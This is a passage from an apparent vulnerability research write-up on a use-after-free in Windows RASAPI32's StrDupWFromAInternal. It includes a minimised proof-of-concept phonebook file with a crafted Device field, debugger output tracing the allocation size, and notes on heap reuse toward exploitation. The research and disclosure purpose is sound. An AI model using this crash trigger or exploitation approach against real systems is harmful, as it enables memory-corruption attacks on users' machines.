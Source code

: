 Aha! So a malformed entry causes the StrDupWFromAInternal to bail out and free the memory!

<h2>Exploitation</h2>

Now that we have a basic understanding of the vulnerability here are my thoughts regarding exploitation
of this issue - take it with a grain of salt!
Let's start with the following minimised PoC:

    [CRASH]
    Encoding=1
    PBVersion=4
    Type=2

    MEDIA=rastapiPort=VPN1
    Device=AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDD

    DEVICE=vpn
    PhoneNumber=localhost
    AreaCode=
    CountryCode=0
    CountryID=0
    UseDialingRules=0
    Comment=
    FriendlyName=
    LastSelectedPhone=0
    PromoteAlternates=0
    TryNextAlternateOnFail=1


Based on our previous analysis we expect to see <b>eax</b> having the length of the device input "AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDD"+1 = 33 (<b>0x21</b>) bytes:

<img src="{{site.url}}/assets/images/buffers.png">

Fantastic, our assumption is correct! And what about the <b>actual</b> allocation?


    eax=00000021 ebx=0000fde9 ecx=1184fd4b edx=00000021 esi=00000000 edi=0019f07c
    eip=721355e8 esp=0019f048 ebp=0019f058 iopl=0         nv up ei pl zr na pe nc
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
    RASAPI32!StrDupWFromAInternal+0x25:
    721355e8 8d044502000000  lea     eax,[eax*2+2]
    0:000> p
    eax=00000044 ebx=0000fde9 ecx=1184fd4b edx=00000021 esi=00000000 edi=0019f07c
    eip=721355ef esp=0019f048 ebp=0019f058 iopl=0         nv up ei pl zr na pe nc
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246


As seen previously the final value would be <b>eax*2+2</b> meaning: <b>0x44 bytes</b>.


<img src="{{site.url}}/assets/images/alloc_free.png">

Notice above that after monitoring the allocs/frees, we can see that the memory allocator rounded
the initial value to <b>0x48</b>, then three more allocs are hapenning and then eventually the address is being reused.
